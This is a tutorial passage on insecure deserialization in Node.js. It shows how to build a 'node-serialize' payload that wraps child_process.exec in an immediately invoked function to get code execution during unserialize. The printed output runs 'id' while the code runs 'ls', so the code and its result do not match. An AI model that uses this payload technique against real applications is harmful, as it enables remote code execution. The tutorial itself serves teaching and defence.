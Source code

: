 
## **Insecure Deserialization**

Insecure Deserialization is a vulnerability that commonly occurs in web applications;
this vulnerability arises when user-controllable data is deserialized without proper validations, this potentially allows an attacker to manipulate the unserialized objects behavior or even replace the serialized object with an object of a different class.
Manipulating the class might result in an error, but before this happens, it is probably that the damage may be already done. Many deserialization-based attacks are completed before deserialization is finished

### **How do insecure deserialization vulnerabilities arise?**

Deserialization-based attacks generally occur when a backend application trusts in users input and involves this data into a deserialization process. Developers should always try to avoid deserializing user-controllable data; but if this is needed, always implement mechanisms in order to validate the user input, libraries such as `joi` are a great option for verifying user-input.

### **Basic Example**

As we saw, the `node-serialize` package allows us to include functions in our serialized objects. This sounds good, right? Well, not at all. What happens if we pass an `IIFE` to the `unserialize` function?.. Yes, it will be executed. Let's look an example.

#### Generating a payload

To achieve RCE, we can use `child_process` module in NodeJs and invoke `exec` within the function we're serializing. Since we cannot add a `IIFE` directly in the object we're serializing (becuase the function would execute when we serialize the object), we need to manually convert our function into an `IIFE`.
We just need to add `()` after the closing bracket, in this case we don't need to enclose the entire function with parenthesis. We could also need to scape backslashes.

```js
const serializer = require("node-serialize");

const obj = {
  f: function () {
    require("child_process").exec("ls", function () {});
  }
};

let payload = serializer.serialize(obj);
console.log(payload);
```

Result:

```js
{"f":"_$$ND_FUNC$$_function () {\n    require(\"child_process\").exec(\"id\", function (stdin, stdout, sterr) {\n      console.log(stdout);\n    });\n  }"}

Modified Output:
{"f":"_$$ND_FUNC$$_function () {\\n    require(\\"child_process\\").exec(\\"id\\", function (stdin, stdout, sterr) {\\n      console.log(stdout);\\n    });\\n  }()"};
```
